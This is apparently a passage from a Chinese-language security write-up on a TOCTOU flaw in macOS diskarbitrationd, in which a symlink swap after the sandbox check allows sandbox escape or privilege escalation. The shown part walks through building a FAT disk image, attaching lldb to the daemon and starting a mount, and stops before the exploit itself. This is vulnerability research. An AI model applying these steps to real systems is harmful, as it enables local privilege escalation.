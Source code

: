   
sandbox_check_by_audit_token()通过检查沙箱、UID等来验证挂载路径，但由于结构性问题，并不能防止后续挂载执行阶段因符号链接等原因导致路径被改变的可能性，TOCTOU（Time of检查使用时间）出现漏洞。验证后，如果使用符号链接将路径更改为其他位置，则可以执行沙箱逃逸或LPE 。  
  
在本文中，我们将根据上述漏洞进行LPE调试和执行。  
  
**1.创建DMG文件**  
  
首先，创建使用MS-DOS (FAT)文件系统的磁盘映像。  
  
```
hdiutil create -fs "MS-DOS" -size 10MB -volname disk dos.dmg
```  
  
  
**2. 将调试器附加到diskarbitrationd**  
  
使用 lldb连接到disk Arbitrationd  
sandbox_check_by_audit_token进程并在函数中设置断点。  
  
```
(lldb) process attach --name "diskarbitrationd"
Process 113 stopped
* thread #1, stop reason = signal SIGSTOP
    frame #0: 0x000000019e3b3564 libsystem_kernel.dylib`__sigsuspend_nocancel + 8
libsystem_kernel.dylib`__sigsuspend_nocancel:
-> 0x19e3b3564 <+8>: b.lo 0x19e3b3584 ; <+40>
    0x19e3b3568 <+12>: pacibsp 
    0x19e3b356c <+16>: stp x29, x30, [sp, #-0x10]!
    0x19e3b3570 <+20>: mov x29, sp
Target 0: (diskarbitrationd) stopped.
Executable module set to "/usr/libexec/diskarbitrationd".
Architecture set to: arm64e-apple-macosx-.
(lldb) b sandbox_check_by_audit_token
Breakpoint 2: where = libsystem_sandbox.dylib`sandbox_check_by_audit_token, address = 0x00000001aa59bc50
(lldb) c
Process 113 resuming
```  
  
  
**3. 开始挂载操作**  
  
在另一个终端中，准备磁盘并开始安装操作。  
  
```
tree@forest ~ % mkdir mnt
tree@forest ~ % open dos.dmg 
tree@forest ~ % umount /Volumes/DISK
tree@forest ~ % diskutil list
...
/dev/disk5 (disk image):
   #: TYPE NAME SIZE IDENTIFIER
   0: FDisk_partition_scheme +10.5 MB disk5
   1: DOS_FAT_32 DISK 10.5 MB disk5s1
tree@forest ~ % hdiutil attach -mountpoint mnt /dev/disk5s1
```  
  
1. 创建mnt目录，并将其作为挂载点来挂载磁盘。  
  